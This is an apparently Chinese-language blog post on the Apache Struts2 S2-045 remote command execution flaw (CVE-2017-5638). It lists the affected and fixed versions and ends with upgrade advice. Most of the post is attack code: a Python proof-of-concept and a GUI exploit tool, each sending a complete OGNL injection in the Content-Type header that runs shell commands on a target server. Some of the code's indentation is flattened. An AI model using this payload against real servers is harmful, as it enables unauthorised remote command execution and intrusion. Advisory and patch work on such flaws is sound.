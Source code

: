 ```yaml
---
layout:     post
title:      J2EE struts2远程命令执行漏洞
subtitle:   J2EE struts2远程命令执行漏洞
date:       2017-08-09
author:     Ytala
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```





# struts2远程命令执行漏洞S2-045

Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。

漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

风险等级：高风险。

漏洞风险：黑客通过利用漏洞可以实现远程命令执行。

影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。

安全版本：Struts 2.3.32或2.5.10.1。

poc，如下：

    #! /usr/bin/env python
    # encoding:utf-8
    import urllib2
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    
    
    
    def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
    
    poc()

exp，如下：
    
    #coding:utf-8
    import urllib2
    from Tkinter import *
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    
    
    
    class START():
    
    def __init__(self,root):
    self.root=root
    self.show_W_Text = Text()
    self.show_url_ed = Label(root, text="str2")
    self.edit_url = Entry(root, text="输入地址")
    self.butt_whois = Button(root, text="kill",command=self.poc)
    self.show_url_ed.pack()
    self.edit_url.pack()
    self.butt_whois.pack()
    self.show_W_Text.pack()
    
    def poc(self):
    w_url = self.edit_url.get()
    text = self.show_W_Text
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header[
    "User-Agent"] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header[
    "Content-Type"] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(w_url, datagen, headers=header)
    response = urllib2.urlopen(request).read()
    text.insert(1.0, response)
    
    
    if __name__ == '__main__':
    
    root=Tk()
    root.title("....")
    motion=START(root)
    mainloop()

修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。